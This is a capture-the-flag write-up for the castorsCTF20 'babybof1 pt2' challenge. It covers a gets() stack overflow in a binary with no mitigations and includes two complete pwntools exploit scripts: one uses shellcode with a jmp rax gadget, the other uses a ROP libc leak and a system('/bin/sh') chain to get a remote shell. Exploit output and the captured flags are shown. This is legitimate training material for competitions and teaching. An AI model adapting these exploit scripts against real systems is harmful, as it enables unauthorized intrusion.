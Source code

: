 # castorsCTF20

## babybof1 pt2

> 440
>
> Author: Lunga
>
> You should get a shell now!
>
> obs: Same binary as the babybof1, this is correct.
>
> obs2: ASLR is active on the server.
>
> `nc chals20.cybercastors.com 14425`
>
> [`babybof`](babybof)

Tags: _pwn_ _bof_ _x86-64_ _rop_ _shellcode_ _remote-shell_


## Summary

`gets` + shellcode.  _Hack like it's [1995](https://youtu.be/i8dh9gDzmz8)._


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations.  With RWX, assume shellcode.

    
### Decompile with Ghidra

```c
void main(void)

{
  char local_108 [256];
  
  puts("Welcome to the cybercastors Babybof");
  printf("Say your name: ");
  gets(local_108);
  return;
}
```

This was a two-part pwn, the first flag can be obtained by directing execution to `get_flag`.  The second requires getting a shell (you can get both flags with a shell).

For a shell I tried two different solutions.  The first was to leak libc and then call `system`.  That worked locally, but not remotely.  This CTF was plagued with infrastructure problems, and the pwns had "buffering issues" (see below) that slowly got resolved--AFAIK, the game master only tested one-shot solutions.

From the Ghidra disassembly, `local_108` is `0x108` bytes above the return address:

```
                             undefined __stdcall main(void)
             undefined         AL:1               <RETURN>
             undefined1        Stack[-0x108]:1    local_108
```

Since `gets` is unbounded, just write `0x108` bytes then overwrite the return address with a gadget to jmp/call shellcode.


## Exploit

### Solution 1

```python
#!/usr/bin/python3

from pwn import *

#p = process('./babybof')
p = remote('chals20.cybercastors.com', 14425)

binary = ELF('./babybof')
context.update(arch='amd64',os='linux')

jmp_rax = list(binary.search(asm('jmp rax')))[0]
print("jmp rax",hex(jmp_rax))

payload  = asm(shellcraft.sh()).ljust(0x108,b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

After initial setup this code searches for `jmp rax` (`call rax` is fine too) within the binary.  Since no PIE, there's no need to leak the base process address.

_Why `jmp rax`?_

From GDB: Set a breakpoint at `ret` (`b *main+62`), run, and input `AAAABBBBCCCCDDDD`, then notice that `$rax` is set to the address of `local_108`:

```
$rax   : 0x00007fffffffe450  →  "AAAABBBBCCCCDDDD"
$rbx   : 0x0
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffe558  →  0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
$rbp   : 0x0000000000400790  →  <__libc_csu_init+0> push r15
$rsi   : 0x4342424242414141 ("AAABBBBC"?)
$rdi   : 0x00007fffffffe451  →  "AAABBBBCCCCDDDD"
$rip   : 0x000000000040078b  →  <main+62> ret
$r8    : 0x0000000000602681  →  0x0000000000000000
$r9    : 0x00007ffff7fd64c0  →  0x00007ffff7fd64c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x0000000000400600  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe630  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

The rest of the code builds a payload from the pwntools shellcraft supplied shellcode and then pads that out to `0x108` bytes.

Output:

```
# ./exploit.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] '/pwd/datajerk/castorsctf20/babybof1_pt2/babybof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp rax 0x400661
[*] Switching to interactive mode
$ ls
babybof
flag.txt
shell_flag.txt
$ cat flag.txt
castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}
$ cat shell_flag.txt
castorsCTF{w0w_U_jU5t_h4ck3d_th15!!1_c4ll_th3_c0p5!11}
```


### Solution 2

```python
#!/usr/bin/python3

from pwn import *

#p = process('./babybof')
p = remote('localhost', 9999)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#p = remote('chals20.cybercastors.com', 14425)
#libc = ELF('libc-database/db/libc6_2.31-0ubuntu9_amd64.so')

'''
# libc-database/find puts 5a0
http://http.us.debian.org/debian/pool/main/g/glibc/libc6_2.30-4_i386.deb (id libc6_2.30-4_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.31-0ubuntu9_amd64.deb (id libc6_2.31-0ubuntu9_amd64)
'''

binary = ELF('./babybof')

context.update(arch='amd64')
rop = ROP('babybof')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Say your name: ')
payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])
p.sendline(payload)

_ = p.recvline().strip()
_ = p.recvline().strip()
puts = u64(_ + 2*b'\x00')
print('puts:',hex(puts))
baselibc = puts - libc.symbols['puts']
print('baselibc:',hex(baselibc))

p.recvuntil('Say your name: ')
payload  = 0x108 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b'/bin/sh')))
payload += p64(baselibc + libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

This is normally how I solve many of these problems; usually NX is enabled, and I have so many of these examples laying around it's an easy C&P job.

> See [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for a lengthy description of how the above code works.

> This did not work until much later in the competition when the "buffering issues" were corrected.  Others reported on this as well.


#### Tip: Hosting the binary yourself:

```
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:$PWD/babybof,pty,stderr,setsid,sigint,sane,rawer
```

While I was waiting for the "buffering issues" to be corrected I self-hosted the binary using the above to do the exploit development.  The first part of the exploit did work (the leak), however it was not possible to coordinate the second part until later in the CTF.

> I got tired of waiting, so ended up with the shellcode solution.


#### My $0.02 US

IMHO, the "buffering issue" was a non-issue.  i.e., it was solvable with shellcode without any corrective action.  It was annoying, in that this CTF pwn did not behave like others, but then you just have to find a different solution.  The game masters could have stood their ground, and this isn't the only CTF were I have had this problem (you've seen them too; anywhere you `nc` to the port and nothing is output, no prompt, nothing.  However, the local binary outputs immediately), while this can make exploit development difficult, it does not make it impossible, just different.

